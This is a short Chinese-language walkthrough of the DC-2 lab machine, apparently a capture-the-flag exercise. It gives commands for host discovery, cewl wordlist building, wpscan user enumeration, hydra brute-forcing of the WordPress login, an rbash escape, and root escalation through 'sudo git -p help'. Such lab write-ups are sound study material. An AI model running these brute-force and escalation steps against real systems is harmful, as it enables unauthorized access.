


[toc]

## DC-2

### 信息收集

> 局域网探测存活主机
>
> `arp-scan -l`
>
> 利用nmap收集端口信息
>
> 收集文件目录信息

### flag

> 
>
> ***爬取收集密码***
>
> > ` cewl dc-2 > pwd.dic`
> >
> > dc-2为域名，hosts里自己修改
>
> ***收集用户名***
>
> > 
> >
> > `wpscan --url dc-2 -e u`
>
> ***WordPress后台爆破***
>
> > * 利用hydra
> >
> >   > ` hydra -L user.dic -P pwd.dic 192.168.191.133 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<title>ERROR</title>"`
> >
> > * 利用wpscan
> >
> >   > `wpscan --url dc-2 -U user.dic -P pwd.dic`
> >   >
> >   > 
>
> ***flag2***
>
> 
>
> ***爆破tom ssh***
>
> > 登陆后发现是rbash，可以用vi命令查看flag3.txt
>
> ***绕过rbash***
>
> > `B[1]=/bin/sh;1`
> >
> > 
> >
> > 大写字母做数组名就可
> >
> > ***添加环境变量***
> >
> > > `export PATH=/bin:$PATH`
> > >
> > > `export PATH=/usr/bin:$PATH`
> > >
> > > $ps$:`:$PATH`可以在前也可以在后
> > >
> > > 
>
> ***切换用户发现flag4***
>
> 
>
> 

### 利用git提权获取得到最终的flag

> 
>
> ***git提权***
>
> > `sudo git -p help`
> >
> > `! '/bin/sh'`
>
> 类似于more和less类型的提权

### 总结

> ***靶机难度***：⭐
>
> ==知识点==
>
> ○git提权
>
> ○rbash绕过
>
> ○cewl爬取字典
>
> ○wpscan和hydra爆破
>
> ○添加环境变量执行更多命令

